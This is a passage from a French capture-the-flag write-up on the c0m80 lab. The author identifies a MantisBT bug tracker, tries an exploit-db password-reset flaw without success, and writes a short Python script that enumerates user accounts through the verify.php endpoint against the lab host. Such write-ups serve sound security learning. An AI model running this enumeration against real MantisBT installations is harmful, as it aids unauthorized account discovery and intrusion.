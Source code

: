 En dehors du fait qu'il y avait plusieurs fichiers présents dans le dump, ce que je n'ai pas vu à ce moment là, il y a un autre détail que je n'ai pas remarqué... S'aura tu le retrouver ? :p   

Le fichier original obtenu via *xxd -r ftp104.bkp output* s'avère être un exécutable... peu exploitable ^\_^  

```bash
$ file output
output: MS-DOS executable, MZ for MS-DOS
```

En effet le programme ne veut pas fonctionner, que ce soit via *Wine* ou directement depuis Windows :(  

Hacker bien sous tous rapports cherche bug \*
---------------------------------------------

\* pour pénétration  

A ce stade on a bien un scénario final d'exploitation mais on n'a pas vraiment avancé... Certes on dispose d'un utilisateur (*bob*) mais des tentatives de brute force sur FTP/SMB ont été vaines.  

Il est temps de se pencher sur le bug tracker présent.  

Dans */bugs/doc/en-US/Admin\_Guide/* se trouve un manuel *MantisBT-2.0-Admin\_Guide-en-US.pdf* avec la mention 2016, ce qui nous permet d'estimer la version du *MantisBT*.  

Sur *exploit-db*, il y a une vulnérabilité de password-reset qui s'avère prometteuse mais qui après plusieurs essais ne semble pas fonctionner sur notre cible (patchée ?) car même si on parvient sur le formulaire de réinitialisation du mot de passe, le changement ne semble pas être pris en compte.  

Ce qui ressort de cette vulnérabilité et de [la vidéo citée](https://vimeo.com/213144905) c'est tout de même qu'on peut facilement énumérer les utilisateurs existants en incrémentant l'ID dans l'URL suivante (l'auteur du challenge demandait à ce qu'on rajoute une entrée dans le /etc/hosts) :  

```plain
http://c0m80.ctf/bugs/verify.php?id=1&confirm_hash=
```

Un script rapide :  

```python
import requests
from bs4 import BeautifulSoup

MAX_ID = 1000

sess = requests.session()
for i in range(MAX_ID):
    url = "http://c0m80.ctf/bugs/verify.php?id={}&confirm_hash=".format(i)
    response = sess.get(url)
    soup = BeautifulSoup(response.text, "lxml")
    input_tag = soup.find("input", id="realname", value=True)
    if input_tag:
        print("Found user id {}: '{}'".format(i, input_tag["value"]))
```

Nous ramène une petite liste d'utilisateurs :  
